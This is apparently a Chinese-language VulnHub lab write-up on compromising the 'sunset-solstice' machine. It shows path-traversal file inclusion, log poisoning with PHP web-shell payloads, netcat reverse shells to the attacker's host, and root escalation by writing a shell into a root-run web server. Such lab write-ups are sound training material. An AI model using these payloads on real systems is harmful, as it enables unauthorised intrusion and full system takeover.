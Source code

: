 ```yaml
---

title: Vulnhub 499 SUNSET-SOLSTICE

---
```


考点：文件包含、权限继承

靶机链接：<https://www.vulnhub.com/entry/sunset-solstice,499/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SOLSTICE   | 10.0.2.4  |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.4
$ nmap -v -A -p- $rip
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello localhost [10.0.2.15], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  tcpwrapped
Service Info: Host: solstice; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 1s
| nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SOLSTICE<00>         Flags: <unique><active>
|   SOLSTICE<03>         Flags: <unique><active>
|   SOLSTICE<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

### WEB测试

发现web端口，优先进行web漏洞测试

- 80端口没发现啥问题，纯粹是个兔子洞，那个`phpIPAM`最后进系统一看，各种空文件
- 8593端口存在本地文件包含漏洞，应该是这里搞突破了

```http
http://10.0.2.4:8593/index.php?book=/../../../../../etc/passwd
```

### 漏洞发现

于是想包含apache2日志或者auth.log

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/auth.log>发现包含失败，应该是权限不够。

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log发现日志未写入，测试80和54787> web应用，访问

```http
http://10.0.2.4:80/p80
http://10.0.2.4:54787/p54787
```

发现对<http://10.0.2.4:80>的访问会写入`/var/log/apache2/access.log`日志。

## 获得权限

### 本地测试

本地启动`/etc/init.d/apache2 start`

测试 将一句话通过user-agent写入apache2日志文件

```bash
curl http://10.0.2.15 -A '<?php system($_GET[123]);?>'
```

![1](https://static.iihack.com/vulnhub/499/1.JPG)

![2](https://static.iihack.com/vulnhub/499/2.JPG)

写入成功

### 靶机测试

#### 思路一

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

浏览器访问

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log&123=nc 10.0.2.15 444 -e /bin/bash
```

获得反弹shell，权限是`www-data`

![4](https://static.iihack.com/vulnhub/499/4.JPG)

尝试写入当前目录，发现可写，果断wget一句话连antsword。

![5](https://static.iihack.com/vulnhub/499/5.JPG)

这里第一次连接失败，断掉nc连接成功

![6](https://static.iihack.com/vulnhub/499/6.JPG)

#### 靶机测试-思路二

也可以直接写antsword用的`<?php eval($_POST[123]); ?>`

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

antsword连上

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log
```

 密码 `123`

#### 靶机测试-思路三

还可以使用burpsuite提交`<?php eval($_POST['cmd']); ?>`burpsuite可避免转义

## 提权

一番查看进程，发现有个root权限启动的web服务在57端口

![7](https://static.iihack.com/vulnhub/499/7.JPG)

刚好该目录index.php文件可以写入，果断写入nc反弹

```php
system('nc 10.0.2.15 555 -e /bin/sh');
```

![9](https://static.iihack.com/vulnhub/499/9.JPG)

执行curl获得root

```bash
curl http://127.0.0.1:57
```

![10](https://static.iihack.com/vulnhub/499/10.JPG)
